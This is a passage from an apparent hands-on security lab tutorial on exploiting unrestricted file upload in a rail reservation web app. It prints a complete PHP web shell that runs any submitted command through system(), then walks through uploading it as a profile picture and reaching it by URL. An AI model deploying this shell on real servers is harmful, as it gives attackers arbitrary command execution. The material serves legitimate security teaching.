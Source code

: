 ## Exploiting RCE via File Upload

Now we're going to go through how this vulnerability can be exploited. For now, you can just read along, but an opportunity to put this knowledge into practice is coming up. Once an RCE vulnerability has been identified that can be exploited via file upload, we now need to create a malicious file that will allow remote code execution when uploaded.


Below is an example PHP file which could be uploaded to exploit this vulnerability. Using your favourite text editor, copy and paste the below code and save it as shell.php.


```javascript
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command']))
    {
        system($_GET['command'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```


The above script, when accessed, displays an input field. Whatever is entered in this input field is then run against the underlying operating system using the `system()` PHP function, and the output is displayed to the user. This is the perfect file to upload to the vulnerable rail system reservation application. The vulnerability is surrounding the upload of a new profile image. So, to exploit it, we navigate to the profile picture page:


 ![Railway profile page](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053142390.png)

Instead of a new profile picture, we can upload our malicious PHP script and update our profile:


 ![Profile picture uploaded](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053158718.png)

In the case of this application, the RCE is possible through unrestricted file upload. Once this "profile picture" is uploaded and updated, it is stored in the `/admin/assets/img/profile/` directory. The file can then be accessed directly via `http://<ip-address-or-localhost>/<projectname>/admin/assets/img/profile/shell.php`. When this is accessed, we can then see the malicious code in action:


 ![Malicious code in action](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053358466.png) \n

Now, we can run commands directly against the operating system using this bar, and the output will be displayed. For example, running the command `pwd` now returns the following:

